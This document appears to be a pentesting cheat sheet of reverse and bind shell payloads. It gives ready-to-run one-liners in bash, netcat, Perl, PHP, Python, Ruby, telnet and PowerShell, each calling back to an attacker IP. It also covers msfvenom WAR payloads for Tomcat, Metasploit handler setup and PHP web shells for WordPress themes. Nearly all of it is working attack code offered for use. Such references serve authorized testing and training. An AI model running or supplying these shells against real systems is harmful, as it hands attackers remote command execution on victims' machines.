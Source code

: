 # Shells

### Best Resource:

{% embed url="https://revshells.com" %}

### Reverse Shells

**Listensers**

```
nc -nlvp 9001
```

* Always set up a **netcat** listener before executing a bash reverse shell
* You can also use **multi/handler** from **metasploit** to catch incoming reverse shells

```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 9001
run
```

**Netcat Reverse Shell**

```
nc 172.16.6.1 9001 -e /bin/sh
```

* Standard **netcat** reverse shell (only works with some versions of nc)

### **Bash Reverse Shells**

* Good first attempt at a shell.

```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```

* Best **bash** reverse shell option, has the highest percentage success rate.&#x20;

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```

### **Perl Reverse Shell**

```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **PHP Reverse Shell**

```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* Standard PHP reverse shell typically used for injection on the terminal environment or into a web application

```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

* This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)
* Also have the option of attempting p0wny.php shell for wordpress

{% embed url="https://github.com/flozz/p0wny-shell/blob/master/shell.php" %}
p0wny.php download&#x20;
{% endembed %}

* Most effective is the php-reverse-shell.php when it comes to wordpress and php reverse shells in general&#x20;

{% embed url="https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php" %}
php\__reverse\__shell.php
{% endembed %}

### **Python Reverse Shell**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* Troubleshooting lessons

```
which python
which python3
/usr/bin/python
/usr/bin/python3
```

* Try the absolute paths when `python3` or `python` are not working to trigger your reverse shell
* Standard python reverse shell

### **Ruby Reverse Shell**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Linux ruby reverse shell

```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Windows ruby reverse shell

### **War Reverse Shell**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```

* This will generate a war file for upload on the **Tomcat** CMS. Once uploaded click on the shell option to activate it.
* Catch this shell with **multi/handler** or just **nc**

```
msfconsole
use exploit /multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

### **Reverse shell over the Telnet Protocol**

```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```

* This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Powershell

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind Shells

### **Netcat Bind Shell**

```
nc -nlvp 1234 -e /bin/sh
```

* This is executed on the target box and waits for an incoming connection

```
nc [target box ip] 1234
```

* This is executed on your attack box to connect to the listener on the target

